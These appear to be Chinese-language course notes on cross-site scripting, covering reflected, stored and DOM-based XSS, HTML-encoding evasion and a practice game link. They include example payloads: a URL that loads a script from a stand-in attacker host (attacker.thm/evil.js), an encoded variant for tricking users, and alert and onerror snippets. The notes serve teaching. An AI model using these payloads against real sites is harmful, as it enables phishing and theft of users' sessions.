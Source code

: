 #### 反射型

- 最常見的 XSS 攻擊類型，惡意程式碼不會儲存於目標伺服器中
- 注入方式：通常是將 payload 藏在網址列裡，放在 GET 參數傳遞
- 觸發方式：受害者需要點擊帶有 payload 的特定 URL 來觸發攻擊
- 影響範圍：僅限於單次單一使用者
- 反射型 XSS 例子 ：將 payload 注入在到網頁原始碼中
    ![image](https://hackmd.io/_uploads/rJc-wMcNa.png)
- 這種手法要能夠成功攻擊，需要使用社交工程釣魚的技巧，讓 User 點擊URL 攻擊才會生效。
    `https://website.thm/?error=<srcript src="https://attacker.thm/evil.js"><script>`
- 使用短網址或 HTML Encoder 的方式嘗試欺騙 User：
    ```!
    https://website.thm/?error=&lt;srcript src=&quot;https://attacker.thm/evil.js&quot;&gt;&lt;script&gt;
    ```
    
##### HTML 編碼

HTML 編碼原本是為了使特殊符號透過 HTML 編碼可以正常在 HTML 顯示，避免 HTML 將 URL 中的特殊符號視為語法，如：參數傳遞時包含 < 、> 等符號。

Hacker 反其道而行之：故意將要輸入在 URL 的特殊符號先轉換成 HTML 編碼或 URL 編碼，可以讓 Web Sever 解析成特殊符號，進而進行 XSS 攻擊。

#### 儲存型
- 注入方式：攻擊者將 payload 存儲在網站的資料庫 (database) 中，這些 script 會被伺服器返回並嵌入到網頁內容中。
- 觸發方式：只要訪問任何含 payload 的頁面，都會執行 Script
- 影響範圍：所有訪問相關頁面的使用者\
- 例子：
    網頁留言板注入 `<script>alert('xss')</script>`
    資料庫儲存後，每次只要有人用網頁瀏覽留言內容，都會執行 Script

#### DOM型
- 注入方式、觸發方式、影響範圍與反射型 XSS 類似。
- Hacker 在 URL 輸入 DOM 物件，把物/事件嵌入網頁程式碼。
- DOM 型 XSS 攻擊中，提取和執行惡意程式都是由瀏覽器端完成，屬於前端 JavaScript 的安全漏洞，而其他兩種 XSS 都是透過伺服器而產生的安全風險。
- 例子：
    ```javascript
    <img src=# onerror=”alert('XSS')”>
    ```

### XSS Payload Modification 範例 1

![image](https://hackmd.io/_uploads/rJuIufqEa.png)
![image](https://hackmd.io/_uploads/r1dpOz9Ep.png)

### XSS Payload Modification 範例 2

![image](https://hackmd.io/_uploads/HkXWYfcV6.png)
![image](https://hackmd.io/_uploads/SJEfKG54T.png)

## XSS Game
- [xss game](http://www.xssgame.com/)
- 目標：完成1~4關！


###### tags: `course`
